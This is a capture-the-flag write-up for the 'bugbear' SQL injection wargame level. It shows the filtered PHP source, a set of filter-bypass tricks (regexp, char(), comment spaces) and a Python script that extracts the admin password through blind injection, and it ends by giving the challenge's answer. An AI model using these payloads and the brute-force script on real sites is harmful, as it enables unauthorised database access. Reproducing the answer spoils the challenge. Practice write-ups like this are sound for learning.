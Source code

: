 # **BugBear**

```shell=
<?php   
  include "./config.php";   
  login_chk();   
  dbconnect();   
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~");   
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe");   
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe");   
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}";   
  echo "<hr>query : <strong>{$query}</strong><hr><br>";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";   
     
  $_GET[pw] = addslashes($_GET[pw]);   
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear");   
  highlight_file(__FILE__);   
?>
```

We can't escape `$_GET[no]` euther in this challenge.

In this challenge, `space`, `like` & `0x` hexcode are unfortunately not work any more.

However, we can change `like` into `regexp`, `0x61` hexcode into `char(97)` then concat() them together, finally replace `space` with `/**/` comment mark.

![](https://i.imgur.com/ApoUEWS.png)

```
import urllib.parse
import http.client

HTTP=http.client.HTTPConnection("los.eagle-jump.org")
Url="/bugbear_431917ddc1dec75b4d65a23bd39689f8.php?no="
Headers={"Cookie":"__cfduid=[your Own cfduid]; PHPSESSID=[your Own PHPSESSID]"} #check your own cookie then insert the correct value to make connection success, or you will get nothing return.
Passwd=""

pwNotInChar = False
for i in range(len(Passwd)+1,100):
    for c in "0123456789abcdefghijklmnopqrstuvwxyz+":

        Payload="1/**/||/**/id/**/regexp/**/concat(char(97),char(100),char(109),char(105),char(110))/**/&&/**/mid(pw,"+str(i)+",1)/**/regexp/**/"+str(bin(ord(c)))

        HTTP.request("GET",Url+urllib.parse.quote(Payload),"",Headers)

        print (Payload)
                
        if (b"Hello admin" in HTTP.getresponse().read()):
            Passwd+=c
            print ("[+] Found: %c" % c)

            HTTP.request("GET",Url+urllib.parse.quote(Passwd),"",Headers)
        if (str(c) == "+"):
            pwNotInChar = True
            break
    if(pwNotInChar == True):
        break
    
print ("[!] Not Found")
print ("[*] Password: %s" % Passwd)
```

![](https://i.imgur.com/tWCNGkb.png)

This challenge's payload should be : 
`?pw=735c2773`

Mmmmmmm.....call it ANSWER seems more better, lol.
